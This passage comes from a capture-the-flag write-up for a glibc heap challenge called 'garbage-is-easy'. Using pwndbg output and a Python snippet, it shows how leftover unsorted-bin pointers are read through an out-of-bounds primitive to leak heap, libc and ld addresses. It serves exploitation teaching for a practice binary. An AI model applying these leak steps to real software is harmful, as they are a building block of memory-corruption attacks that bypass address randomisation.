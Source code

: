 ```
0x5ee62f9eefe0	0x0000000000000b70	0x0000000000000010	p...............
0x5ee62f9eeff0	0x0000000000000000	0x0000000000000011	................
pwndbg> xinfo 0x00007e91485982a0
Extended information for virtual address 0x7e91485982a0:

  Containing mapping:
    0x7e9148597000     0x7e9148599000 rw-p     2000 1cb000 /chal/garbage-is-easy/glibc/libc.so.6

  Offset information:
         Mapped Area 0x7e91485982a0 = 0x7e9148597000 + 0x12a0
         File (Base) 0x7e91485982a0 = 0x7e91483cb000 + 0x1cd2a0
      File (Segment) 0x7e91485982a0 = 0x7e9148593930 + 0x4970
         File (Disk) 0x7e91485982a0 = /chal/garbage-is-easy/glibc/libc.so.6 + 0x1cc2a0

 Containing ELF sections:
               .data 0x7e91485982a0 = 0x7e91485971c0 + 0x10e0
pwndbg> xinfo 0x00005ee62f9ee400
Extended information for virtual address 0x5ee62f9ee400:

  Containing mapping:
    0x5ee62f9ee000     0x5ee62fa31000 rw-p    43000 0      [heap]

  Offset information:
         Mapped Area 0x5ee62f9ee400 = 0x5ee62f9ee000 + 0x400

```

The player will notice that the first `address` is `libc.so.6`'s base address `+ 0x1cc2a0`.   The second address is a pointer to the `chunk` itself. Both of the addresses are left behind by the `unsorted bin chunk`.



And since the `free` `chunk` is up against a `chunk` that is controlled by the player, these address can be read using the `read/write out of bounds` primitive from earlier (`function definitions` are from the `top chunk extension script`), effectively giving the player a `libc` leak and a `heap` leak:

```python
# Get info leaks
info("Calling malloc to pad up until HEAP pointer")
malloc(0x61, b'C'*17)                                       # Pad up until heap pointer
                                                            # NOTE: The null-byte has to be overwritten
                                                            # to allow for "Puts" to read the address.

heap_leak = int(see(2)[17:][::-1].hex()+'00', 16) - 0x400   # Read chunk to get heap leak
info("Heap leak: %s" % hex(heap_leak))

info("Calling malloc to pad up until Libc pointer")
malloc(0x61, b'D'*8)                                        # Pad up until the libc pointer
libc.address = int(see(3)[8:][::-1].hex(), 16) - 0x1cccc0   # Read pointer
ld = libc.address + 0x1dd000                                # Calculate relative offset to LD
info("Libc leak: %s" % hex(libc.address))
info("Ld leak: %s" % hex(ld))
```
